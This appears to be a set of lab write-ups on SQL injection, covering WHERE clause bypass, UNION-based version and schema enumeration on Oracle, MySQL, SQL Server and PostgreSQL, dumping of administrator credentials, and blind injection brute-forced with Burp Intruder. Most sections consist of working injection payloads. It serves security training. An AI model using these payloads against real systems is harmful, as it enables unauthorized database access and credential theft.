

# SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data

## Lab Description


In this lab, the application retrieves products based on a specific category and ensures that only released products are displayed. The SQL query used by the application is as follows:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

This query selects products from the `products` table where the `category` is `Gifts` and the `released` status is `1`, indicating that the products are available for purchase.

### Exploiting the Vulnerability: Bypassing the Released Condition

To bypass the `released = 1` condition and retrieve all products, including those not yet released, we can inject a comment to ignore the rest of the query:

```sql
Pets'--
```

This modifies the query to:

```sql
SELECT * FROM products WHERE category = 'Pets'--' AND released = 1
```

- The `--` comment marker causes the SQL engine to ignore the rest of the query, including the `released = 1` condition, effectively allowing us to view all products in the `Pets` category, regardless of their release status.

### Retrieving All Products Regardless of Category

To display all products in the database, regardless of their category or release status, we can inject a condition that is always true:

```sql
Pets' OR 1=1--
```

This results in the following query:

```sql
SELECT * FROM products WHERE category = 'Pets' OR 1=1 -- ' AND released = 1
```

- The `OR 1=1` condition is always true, which causes the query to return all rows from the `products` table, bypassing both the category and release status filters.

---

# SQL Injection Attack: Querying the Database Type and Version on Oracle

## Lab Description


In Oracle databases, every `SELECT` statement requires a table reference. Oracle provides a special table called `dual` for use in situations where a table reference is required but the query does not target any specific table.

### Steps to Extract the Database Version

To determine the database version on Oracle, the following methods can be used:
- Query the `v$version` view: `SELECT banner FROM v$version`
- Query the `v$instance` view: `SELECT version FROM v$instance`

#### Step-by-Step Exploitation

1. **Determine the Number of Columns:**
   Use an `ORDER BY` clause to determine how many columns are in the original query:
   ```sql
   SELECT * FROM someTable WHERE category = 'any' ORDER BY 2--
   ```
   Increase the number in `ORDER BY` until an error occurs, indicating the total number of columns.

2. **Identify String Columns:**
   Use a `UNION` query to identify which columns accept string data:
   ```sql
   SELECT * FROM someTable WHERE category = 'any' UNION SELECT 'a','a' FROM DUAL--
   ```

3. **Retrieve Version Information:**
   Finally, inject a `UNION` query to extract the database version:
   ```sql
   SELECT * FROM someTable WHERE category='any' UNION SELECT 'a', banner FROM v$version--
   ```

# SQL Injection Attack: Querying the Database Type and Version on MySQL and Microsoft SQL Server

## Lab Description


This lab is similar to the Oracle version but focuses on MySQL and Microsoft SQL Server databases.

### Key Differences

- In MySQL, comments start with the `#` character.
- To query the database version in MySQL or Microsoft SQL Server, use the following command: `SELECT @@version`.

#### Step-by-Step Exploitation

1. **Inject the Payload:**
   ```sql
   SELECT * FROM someTable WHERE category='any' UNION SELECT 'a', @@version#'
   ```

This will reveal the version of the database.

# SQL Injection Attack: Listing the Database Contents on Oracle

## Lab Description


In this lab, we explore an Oracle database where all table information is stored in the `ALL_TABLES` view.

### Exploiting the Vulnerability

1. **Identify Available Tables:**
   Inject a `UNION` query to list table names:
   ```sql
   SELECT * FROM someTable WHERE category='any' UNION SELECT table_name, NULL FROM all_tables--
   ```
   In this case, a table named `USERS_XJIAWY` was identified.

2. **Identify Column Names:**
   Next, query the `ALL_TAB_COLUMNS` view to identify the columns in the `USERS_XJIAWY` table:
   ```sql
   SELECT * FROM someTable WHERE category='any' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_XJIAWY'--
   ```
   This reveals columns such as `USERNAME_HDFLSL` and `PASSWORD_VASGBS`.

3. **Extract Data:**
   Finally, retrieve the usernames and passwords:
   ```sql
   SELECT * FROM someTable WHERE category='any' UNION SELECT USERNAME_HDFLSL, PASSWORD_VASGBS FROM USERS_XJIAWY--
   ```
   I discovered that the password for the administrator is `2ozd1e4np7yp6wc47rx3`.

# SQL Injection Attack: Listing the Database Contents on Non-Oracle Databases

## Lab Description


In this lab, the target database is PostgreSQL, which stores table information in the `information_schema.tables` view.

### Exploiting the Vulnerability

1. **Identify Available Tables:**
   Inject a `UNION` query to list table names:
   ```sql
   SELECT * FROM someTable WHERE category='any' UNION SELECT table_name, NULL FROM information_schema.tables--
   ```
   This reveals a table named `users_xaurai`.

2. **Identify Column Names:**
   Next, query the `information_schema.columns` view to identify the columns in the `users_xaurai` table:
   ```sql
   SELECT * FROM someTable WHERE category='any' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_xaurai'--
   ```
   This reveals columns such as `username_huyzfv` and `password_mxlnvz`.

3. **Extract Data:**
   Finally, retrieve the usernames and passwords:
   ```sql
   SELECT * FROM someTable WHERE category='any' UNION SELECT username_huyzfv, password_mxlnvz FROM users_xaurai--
   ```
   I discovered that the password for the administrator is `3r5z5qaj2hfhokbicr8a`.

# SQL Injection UNION Attack: Retrieving Data from Other Tables

## Lab Description


We know the target database contains a table named `users` with columns `username` and `password`.

### Exploiting the Vulnerability

Inject a `UNION` query to retrieve usernames and passwords from the `users` table:

```sql
SELECT * FROM someTable WHERE category='any' UNION SELECT username, password FROM users--
```

I found that the password for the administrator is `absq994f53k4jwp77utl`.

# SQL Injection UNION Attack: Retrieving Multiple Values in a Single Column

## Lab Description


To retrieve multiple values in a single column, we use the `||` string concatenation operator in Oracle.

### Exploiting the Vulnerability

Inject a `UNION` query to concatenate the username and password:

```sql
SELECT * FROM someTable WHERE category='any' UNION SELECT null, username || '~' || password FROM users--
```

I found that the password for the administrator is `8nx1xp93b0xyx4a2p33f`.

# Blind SQL Injection with Conditional Responses

## Lab Description


In this lab, we exploit a blind SQL injection vulnerability by using conditional responses to extract information. The page displays "Welcome back" when the SQL query returns any rows.

### Step 1: Confirming the Injection Point

We can test the injection point by injecting a condition that is always true:

```sql
SELECT TrackingId FROM someTable WHERE TrackingId = 'xyz' AND 1=1--
```

If the page shows "Welcome back," it confirms that the injection point is vulnerable.

### Step 2: Determining the Password Length

Next, we determine the length of the administrator's password by incrementally increasing the length in our query until the "Welcome back" message no longer appears:

```sql
SELECT TrackingId FROM someTable WHERE TrackingId = 'xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a'--
```

This query reveals that the password is 20 characters long.

### Step 3: Extracting the Password

Once we know the length, we can brute-force each character of the password individually using a substring function:

```sql
SELECT TrackingId FROM someTable WHERE TrackingId = 'xyz' AND (SELECT substring(password,1,1) FROM users WHERE username='administrator')='a'--
```

To automate this process, we use Burp Intruder:


1. **Payload 1:** Numbers from 1 to 20.
2. **Payload 2:** Brute-force characters, using one character at a time.
3. **Grep:** Look for the "Welcome back" message.

This process reveals the password for the administrator is `8m4z6xtypyzdlrq8q86r`.


